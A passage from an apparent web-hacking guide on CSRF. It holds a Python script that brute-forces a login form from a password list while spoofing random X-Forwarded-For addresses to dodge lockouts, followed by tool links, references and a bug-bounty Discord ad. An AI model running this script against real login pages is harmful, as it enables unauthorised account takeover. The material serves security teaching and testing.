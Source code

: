 ```python
data = {
"tokenCSRF": csrf,
"username": user,
"password": password,
"save": ""
}
headers = {
"X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
}
r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
if "Username or password incorrect" in r.text:
return False
else:
print(f"FOUND {user} : {password}")
return True

with open(PASS_LIST, "r") as f:
for line in f:
login(USER, line.strip())
```
## Tools <a href="#tools" id="tools"></a>

* [https://github.com/0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe)
* [https://github.com/merttasci/csrf-poc-generator](https://github.com/merttasci/csrf-poc-generator)

## References

* [https://portswigger.net/web-security/csrf](https://portswigger.net/web-security/csrf)
* [https://portswigger.net/web-security/csrf/bypassing-token-validation](https://portswigger.net/web-security/csrf/bypassing-token-validation)
* [https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses)
* [https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html](https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html)

​

<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates
